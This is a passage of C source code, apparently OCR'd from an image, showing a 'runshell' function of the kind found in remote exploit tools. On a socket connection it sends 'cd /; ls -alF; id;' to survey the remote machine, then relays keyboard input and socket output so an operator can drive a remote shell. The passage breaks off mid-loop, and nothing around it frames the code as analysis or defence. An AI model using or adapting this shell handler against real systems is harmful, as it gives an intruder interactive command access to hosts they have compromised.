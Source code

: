 runshell(int sockd)

{

    char buff[1024];

    int fmax, ret;

    fd_set fds;

 

    fmax = max(fileno(stdin), sockd) + 1;

    send(sockd, "cd /; ls -alF; id;\n", 19, 0);

 

    for(;;)

    {

 

        FD_ZERO(&fds);

        FD_SET(fileno(stdin), &fds);

        FD_SET(sockd, &fds);

 

        if(select(fmax, &fds, NULL, NULL, NULL) < 0)

        {

            perror("select()");

            exit(EXIT_FAILURE);

        }

 

        if(FD_ISSET(sockd, &fds))

        {

            bzero(buff, sizeof buff);

            if((ret = recv(sockd, buff, sizeof buff, 0)) < 0)

            {

                perror("recv()");

                exit(EXIT_FAILURE);

            }

            if(!ret)

            {

                fprintf(stderr, "Connection closed\n");

                exit(EXIT_FAILURE);

            }
